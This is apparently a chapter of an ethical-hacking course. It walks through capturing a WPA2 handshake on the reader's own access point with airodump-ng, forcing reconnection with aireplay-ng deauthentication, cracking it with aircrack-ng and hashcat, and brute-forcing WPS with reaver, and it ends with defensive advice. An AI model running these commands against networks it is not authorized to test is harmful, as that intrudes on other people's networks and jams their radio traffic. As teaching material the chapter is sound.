

# 13 — Wireless Hacking

> **What you'll learn:** how Wi-Fi authentication works, how to put a wireless adapter into monitor mode, scan the air, capture a WPA/WPA2 handshake from **your own** access point, and crack it offline with aircrack-ng and hashcat — plus wifite, reaver, and why WPA3 breaks the whole attack.
> **Prerequisites:** [12 — Sniffing & MITM](12-sniffing-mitm.md). ⬅️ [Course index](README.md)

---

> ## ⚠️ Read this first — legality & hardware
> Wi-Fi attacks transmit on **regulated radio spectrum** and touch other people's traffic. Capturing handshakes, deauthenticating clients, or brute-forcing WPS against a network **you do not own or have written permission to test is a crime** almost everywhere (unauthorized access + interference with radio communications). There is **no lab VM** for this chapter — packets travel through the air, so:
> - **Only ever target your OWN access point / router and your OWN client devices**, on an SSID you set up for this. Not a neighbour's, an employer's, a café's, or a "just this once" network.
> - You need a **USB Wi-Fi adapter that supports monitor mode and packet injection.** The virtual adapter your Kali VM gets from VirtualBox/VMware **cannot** do this — you must pass a physical USB adapter through to the VM. Common capable chipsets: Atheros AR9271, Ralink RT3070/RT5370, Realtek RTL8812AU. (No adapter? Jump to [No adapter?](#no-adapter-study-the-workflow) — you can still learn the whole thing.)
>
> This chapter is the hands-on companion to CEH **[Module 16 — Hacking Wireless Networks](../modules/16-hacking-wireless-networks/)**; read that for the exam theory (802.11 standards, PMKID, evil twin, Bluetooth).

## The attack in one picture



The key idea: WPA2 is **not** broken over the air. You capture a short login exchange (the *handshake*), then guess the password **offline** on your own machine as fast as your CPU/GPU allows. If the password is weak, you win; if it's long and random, you don't.

## Wi-Fi vocabulary you need

| Term | Plain-English meaning |
|---|---|
| **SSID** | The network **name** you see when you pick Wi-Fi (e.g. `HomeNet`). |
| **BSSID** | The AP's **MAC address** — a unique hardware ID like `AA:BB:CC:DD:EE:FF`. One SSID can have several BSSIDs (multiple radios/APs). |
| **Channel (CH)** | The radio "lane" the AP talks on (1–13 on 2.4 GHz, plus 5 GHz channels). Your adapter can only listen to **one channel at a time**. |
| **Client / STATION** | A device connected to the AP (your phone, laptop). |
| **Monitor mode** | A special adapter mode that captures **all** nearby Wi-Fi frames, not just those addressed to you (the wireless version of "promiscuous mode" from chapter 12). |
| **Handshake** | The **4-way handshake** — the 4 messages a client and AP exchange at login. Capturing it lets you crack the password offline. |
| **PSK** | Pre-Shared Key — the Wi-Fi **password** everyone types in. |

## WEP vs WPA / WPA2 vs WPA3

| Protocol | Year | Security | How you attack it |
|---|---|---|---|
| **WEP** | 1999 | **Broken.** RC4 + a tiny 24-bit IV that repeats and leaks the key. | Collect enough IVs, recover the key in **minutes** — statistical, no wordlist needed. |
| **WPA** | 2003 | Weak stopgap (TKIP/RC4). | Same handshake capture as WPA2; TKIP has extra flaws. |
| **WPA2** | 2004 | Standard today (**CCMP/AES**). Strong *if the password is strong*. | Capture the **4-way handshake** (or a PMKID), crack the **password offline**. This chapter's main workflow. |
| **WPA3** | 2018 | Uses **SAE** ("Dragonfly"). | **No offline crack.** SAE never sends a crackable blob and adds forward secrecy — the handshake attack simply doesn't apply. |

**Takeaway:** the whole capture-then-crack game works because WPA2-PSK leaks a password-derived value in its handshake. WPA3-SAE removes that leak, which is exactly why it's the fix.

## Step 1 — Put your adapter into monitor mode

First find your adapter's name, then stop the background services that keep grabbing the card (NetworkManager wants to *connect* to Wi-Fi; you want to *listen*).

```bash
iwconfig                       # or: iw dev  — find your wireless interface (often wlan0)
# You should see an interface like "wlan0" with "IEEE 802.11".

sudo airmon-ng check kill      # stop NetworkManager & wpa_supplicant that fight for the card
# You should see: "Killing these processes:" then a short list.

sudo airmon-ng start wlan0     # switch wlan0 into monitor mode
# You should see: "(monitor mode vif enabled for [phy0]wlan0 on [phy0]wlan0mon)"
```

Your monitor interface is usually named **`wlan0mon`** (some adapters keep `wlan0`). Confirm with `iwconfig` — it should say `Mode:Monitor`. Use that name everywhere below. **Losing internet is expected** — `check kill` disconnects you on purpose; Step "clean up" restores it.

## Step 2 — Scan the air with airodump-ng

`airodump-ng` shows every AP and client your adapter can hear. Let it run for ~30 seconds.

```bash
sudo airodump-ng wlan0mon
# You should see a live table. Top half = access points, bottom half = clients:
#   BSSID              PWR  CH  ENC   ESSID
#   AA:BB:CC:DD:EE:FF  -42   6  WPA2  HomeNet      <- find YOURS by the ESSID (name)
# Note your AP's BSSID and CH. Press Ctrl+C to stop.
```

| Column | Meaning |
|---|---|
| `BSSID` | The AP's MAC — you'll target this. |
| `PWR` | Signal strength (closer to 0 = stronger; `-42` is strong, `-85` is weak). |
| `CH` | Channel — you'll lock onto this. |
| `ENC` / `CIPHER` | Encryption (WPA2, WPA3, WEP, OPN=open). |
| `STATION` (lower table) | MACs of connected clients. Find **your own** device here. |

Write down three things about **your** network: **BSSID**, **CH**, and one **STATION** (your phone/laptop MAC).

## Step 3 — Target one AP and capture the handshake

Now lock onto only your AP and channel, and write the capture to files named `cap-01.cap`, etc.

```bash
sudo airodump-ng -c 6 --bssid AA:BB:CC:DD:EE:FF -w cap wlan0mon
# -c 6            lock to channel 6 (use YOUR channel)
# --bssid ...     listen to YOUR AP only
# -w cap          save capture to cap-01.cap
# You should see: top-right corner shows "WPA handshake: AA:BB:CC:DD:EE:FF"
#                 the moment one of your clients (re)connects.
```

Leave that running. A handshake only happens when a client **joins**, so instead of waiting, **nudge your own device to reconnect** with a *deauthentication* frame — a spoofed "you're disconnected" message. Open a **second terminal**:

```bash
sudo aireplay-ng --deauth 5 -a AA:BB:CC:DD:EE:FF -c 11:22:33:44:55:66 wlan0mon
# --deauth 5   send 5 deauth bursts (keep it small — this is YOUR device)
# -a           the AP's BSSID
# -c           YOUR client's MAC (from airodump's STATION list)
# You should see: "Sending 64 directed DeAuth ... [ACKs]"
```

Your device drops for a second, reconnects, and airodump's top-right line flips to **`WPA handshake:`**. That's it — you have the material. Stop with `Ctrl+C`. (Omit `-c` to broadcast the deauth to all clients, but targeting your own device is cleaner and kinder.)

## Step 4 — Crack it offline

The famous wordlist `rockyou.txt` ships with Kali but comes compressed — unzip it once:

```bash
sudo gunzip /usr/share/wordlists/rockyou.txt.gz   # only needed the first time
```

**Option A — aircrack-ng (CPU, simple):**

```bash
sudo aircrack-ng -w /usr/share/wordlists/rockyou.txt -b AA:BB:CC:DD:EE:FF cap-01.cap
# -w  wordlist to try     -b  your AP's BSSID
# You should see: "KEY FOUND! [ yourpassword ]"  — if the passphrase is in the list.
```

**Option B — hashcat (GPU, much faster):** convert the `.cap` to hashcat's format first, then crack with **mode 22000** (memorize that number — it's the modern WPA/WPA2/PMKID mode).

```bash
hcxpcapngtool -o hash.22000 cap-01.cap            # convert capture -> hashcat 22000 format
# You should see: it reports "written to hash.22000" with a handshake/PMKID count.

hashcat -m 22000 hash.22000 /usr/share/wordlists/rockyou.txt
# -m 22000  the WPA/WPA2/PMKID hash mode
# You should see: the cracked line ends with ":yourpassword", and Status: Cracked.
```

If the passphrase is **not** in the wordlist, the crack fails — which is the whole point: WPA2 strength = password entropy. Make your test SSID's password a dictionary word on purpose so the crack finishes.

## Faster & automated — wifite

`wifite` wraps this entire workflow (monitor mode → scan → deauth → capture → crack) behind a menu. Great once you understand the manual steps above.

```bash
sudo wifite --kill
# It handles airmon-ng, then shows a numbered list of nearby APs.
# Type the NUMBER of YOUR AP and press Enter; press Ctrl+C when only yours is left to attack.
# You should see: it captures the handshake and tries cracking with its wordlist.
```

## WPS PIN attacks — reaver

**WPS** (Wi-Fi Protected Setup) is the "press the button / type an 8-digit PIN" convenience feature. That PIN has only ~11,000 valid combinations, so it can be brute-forced — recovering the WPA2 password **without any handshake**. Only run this against your own router.

```bash
sudo reaver -i wlan0mon -b AA:BB:CC:DD:EE:FF -vv          # brute the 8-digit WPS PIN (online)
sudo reaver -i wlan0mon -b AA:BB:CC:DD:EE:FF -K 1 -vv     # Pixie-Dust: instant offline attack if vulnerable
# You should see: reaver testing PINs; on success it prints the WPS PIN and the WPA PSK.
```

If reaver stalls forever, your router either has WPS disabled or rate-limits/locks it after failures — which is the correct, secure behaviour. **Disable WPS on real routers.**

## Clean up — get your internet back

`airmon-ng check kill` disconnected you. When you're done, restore normal Wi-Fi:

```bash
sudo airmon-ng stop wlan0mon               # leave monitor mode
sudo systemctl restart NetworkManager      # restart normal Wi-Fi management
# You should see: your desktop reconnect to Wi-Fi as usual.
```

## No adapter? Study the workflow

No monitor-mode adapter is fine — you can still learn and practise the **cracking half**, which is where the actual skill is. The aircrack-ng project publishes a **sample WPA capture** (`wpa.cap`) with a known passphrase (`biscotte`) in its official *Cracking WPA* tutorial. Download it there and run:

```bash
aircrack-ng -w /usr/share/wordlists/rockyou.txt wpa.cap
# When prompted, pick the network number, then aircrack tries the wordlist.
# You should see: "KEY FOUND! [ biscotte ]"  (biscotte is included in rockyou.txt).
```

That exercises `aircrack-ng`, hashcat conversion (`hcxpcapngtool -o hash.22000 wpa.cap`), and mode `-m 22000` end-to-end without ever touching the airwaves. Tutorial + file: see [Sources](#sources).

## Common beginner mistakes

- **Using the VM's built-in adapter.** VirtualBox/VMware virtual NICs can't do monitor mode. You must USB-passthrough a **physical** capable adapter (**Devices → USB** in VirtualBox).
- **Wrong interface name.** After `airmon-ng start`, the interface is usually **`wlan0mon`**, not `wlan0`. Check with `iwconfig`.
- **Forgetting `airmon-ng check kill`.** If NetworkManager keeps hopping channels, your capture never lands the handshake.
- **"No handshake" panic.** The handshake only appears when a client **connects** — you must have a client, and a deauth (or waiting) to trigger a reconnect.
- **Wrong channel.** `airodump-ng` with `-c` must match your AP's real channel, or you hear nothing.
- **Expecting to crack WPA3.** SAE has **no** offline path — if `ENC` shows WPA3, the handshake attack won't work. That's the design.
- **`rockyou.txt` still zipped.** `gunzip` it once, or tools error with "No such file".
- **Deauthing the whole neighbourhood.** Always target your own client's MAC with `-c`; don't broadcast attacks over the air.

## ✅ Practice task

**Your own AP only — set up a throwaway SSID for this.**
1. On your router, create a test SSID (e.g. `crackme`) with a **deliberately weak** WPA2 password that's in `rockyou.txt`.
2. `airmon-ng check kill` → `airmon-ng start wlan0`; confirm `Mode:Monitor` with `iwconfig`.
3. `airodump-ng wlan0mon` — find your `crackme`, note its **BSSID** and **CH**.
4. Lock on and capture (`airodump-ng -c <ch> --bssid <BSSID> -w cap wlan0mon`); in a second terminal deauth **your own phone** and confirm `WPA handshake:` appears.
5. Crack it with **both** `aircrack-ng` and `hashcat -m 22000` (via `hcxpcapngtool`). Note the password came back because it was in the wordlist.
6. **Now defend:** change the password to 20+ random characters and repeat — the crack should **fail**. You've just proven WPA2-PSK strength = passphrase entropy. Disable **WPS** while you're in the settings.
7. Clean up: `airmon-ng stop wlan0mon` and restart NetworkManager.

## Next
➡️ [14 — Post-exploitation & pivoting](14-post-exploitation-pivoting.md): what to do once you're *on* a network — looting, privilege escalation, and tunnelling deeper with chisel and proxychains.

## Sources
- Aircrack-ng — https://www.aircrack-ng.org/
- Aircrack-ng — Cracking WPA/WPA2 tutorial (sample `wpa.cap`, passphrase `biscotte`) — https://www.aircrack-ng.org/doku.php?id=cracking_wpa
- Hashcat — WPA mode 22000 example hashes — https://hashcat.net/wiki/doku.php?id=example_hashes
- hcxtools / hcxpcapngtool — https://github.com/ZerBea/hcxtools
- wifite2 — https://github.com/kimocoder/wifite2
- reaver-wps-fork-t6x (WPS / Pixie-Dust) — https://github.com/t6x/reaver-wps-fork-t6x
- CEH Module 16 — Hacking Wireless Networks — [`../modules/16-hacking-wireless-networks/`](../modules/16-hacking-wireless-networks/)
